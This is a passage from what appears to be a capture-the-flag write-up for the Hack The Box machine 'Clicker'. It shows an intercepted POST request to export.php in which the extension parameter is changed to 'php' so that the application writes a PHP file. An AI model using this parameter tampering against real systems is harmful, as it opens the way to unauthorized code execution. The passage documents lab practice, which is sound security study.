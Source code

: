 ![clicker](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/clicker/6.png)


Upon inspecting the request, I noticed that it had two adjustable parameters. I successfully modified the extension to include more options than those offered by the admin panel. I decided to try `php` as the extension, and the application generated an export of players' nicknames, clicks, and their respective levels in php!
```
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/admin.php
Cookie: PHPSESSID=bj964h6lr5jsrdtg0idd1j9d9p
Upgrade-Insecure-Requests: 1

threshold=1&extension=php
```